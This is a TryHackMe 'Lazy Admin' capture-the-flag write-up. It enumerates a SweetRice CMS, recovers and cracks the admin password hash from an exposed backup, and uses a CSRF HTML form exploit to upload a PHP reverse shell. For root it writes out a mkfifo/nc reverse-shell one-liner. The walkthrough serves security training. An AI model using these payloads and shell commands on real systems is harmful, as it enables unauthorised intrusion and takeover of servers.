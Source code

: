 # Lazy Admin - TryHackMe WriteUp
# By 0xRar



## Scanning
```
nmap -T4 -p- -A -sC -Pn MACHINE_IP
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-22 19:12 EST
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that we have port 80 open lets check that out first:
`http://MACHINE_IP` we can see the Apache2 Ubuntu Default Page.


lets check what directories do we have:
```
/

gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)



/content

gobuster dir -u MACHINE_IP/content -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)

```

> By taking a look at the source code of the `/content`
> we can see that we have a js linked `http://MACHINE_IP/content/js/SweetRice.js`
> by checking the js file we see that the `cms: SweetRice version is 0.5.4`


## Exploitation

- Now that we have the cms name and version we can search for exploits
```
searchsploit SweetRice
as we can see there is 2 interesting exploits here:
SweetRice 1.5.1 - Backup Disclosure /content/inc/mysql_backup/ (https://www.exploit-db.com/exploits/40718)
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution (https://www.exploit-db.com/exploits/40700)
```

![dir](https://user-images.githubusercontent.com/33517160/105569406-6188f880-5d52-11eb-8cb9-4f5901c5ae3c.png)

- After downloading the mysql backup it seems like the file type is php script 
`file mysql_bakup_20191129023059-1.5.1.sql`

- After going through the file and reading the content we can see the username and the passwd:
```
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\

username : manager

the passwd looks like an md5 hash we can crack it at (https://crackstation.net/)

passwd : Password123
```

- Looking at the directiries we see the login page at `http://MACHINE_IP/content/as/`
- Logging in gave us nothing , so lets check out the other exploit it will allow us to execute code , it means we can get a reverse shell

```
first lets edit our exploit.html , and change the localhost to our MACHINE_IP
and change the location of the login page

<html>
<body onload="document.exploit.submit();">
<form action="http://MACHINE_IP/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

firefox exploit.html &

Running the exploit.html twice will upload our PoC

going to (http://MACHINE_IP/content/inc/ads/hacked.php), if you can see the phpinfo() page
that means your exploit worked !
```
![PoC](https://user-images.githubusercontent.com/33517160/105569359-1373f500-5d52-11eb-9388-692b956b2a7c.png)


- Now we can use a reverse shell to gain access
```
i use (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

instead of using this ,
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>

we delete it and paste in our php shell,
 than firefox exploit.html again 
```

![shell uploaded](https://user-images.githubusercontent.com/33517160/105569454-b167bf80-5d52-11eb-862b-3dc9b514ebf1.png)

- Lets listen via nc `nc -lnvp 4444`
- We can see our shell is uploaded lets run it by going to `/content/inc/ads/shellname.php`


- Lets go get our user flag
```
cd home/itguy
cat user.txt

THM{********************************}    
```


## Privilege Escalation

```
in the itguy dir we see a backup.pl

we see that backup.pl is calling  /etc/copy.sh and copy.sh is writeable for users

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MACHINE_IP 7777 >/tmp/f
```

- Lets open a new terminal and listen via nc again  `nc -lnvp 7777`

```
now lets run backup.pl so it calls copy.sh than trigger our shell

cd root

cat root.txt

THM{********************************}

```

## This machine is an example for chaining 2 exploits to gain access.
## Thank you for reading 

